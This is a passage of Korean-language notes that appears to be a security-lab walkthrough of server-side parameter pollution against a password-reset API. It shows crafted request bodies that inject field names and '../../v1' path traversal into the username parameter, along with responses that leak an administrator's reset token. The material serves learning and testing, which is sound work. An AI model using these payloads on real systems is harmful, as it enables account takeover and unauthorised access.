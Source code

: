 ## 3. field 경로 추가 

1. field 경로를 추가 후 임의 값을 넣어본다. 
```
csrf=Qbf3ceD5UaLhPIPwfcvANfWzkXv1lklz&username=administrator/field/test%23

->
HTTP/2 400 Bad Request

{
  "type": "error",
  "result": "This version of API only supports the email field for security reasons"
}
```

2. 파라미터에 email 추가해본다. 
```
csrf=Qbf3ceD5UaLhPIPwfcvANfWzkXv1lklz&username=administrator/field/email%23
-> 정상 응답값
```

3. proxy-http history 에서 forgotPassword.js를 본다. 
	- passwordResetToken 이 존재한다. 
```
if (resetToken)
    {
        window.location.href = `/forgot-password?passwordResetToken=${resetToken}`;
    }
```

4. 파라미터에 passwordResetToken을 던져본다.
	- "This version" 에서는 email만 지원한다고 한다.
```
csrf=Qbf3ceD5UaLhPIPwfcvANfWzkXv1lklz&username=administrator/field/passwordResetToken%23

-> 
{
  "type": "error",
  "result": "This version of API only supports the email field for security reasons"
}
```

5. version 변경을 시도 해 본다. 
	- /api/internal/v1/users/{username}/field/{field}\ api정의 url을 참고해 버전 변경 시도
```
// v1
csrf=Qbf3ceD5UaLhPIPwfcvANfWzkXv1lklz&username=../../v1/users/administrator/field/passwordResetToken%23

-> 
{
  "type": "passwordResetToken",
  "result": "gvmstlgkf2jjfg3mw7ybmiwulughfpw7"
}

// v2 
{
  "type": "error",
  "result": "This version of API only supports the email field for security reasons"
}

// v3
{
  "type": "error",
  "result": "Invalid route. Please refer to the API definition"
}
```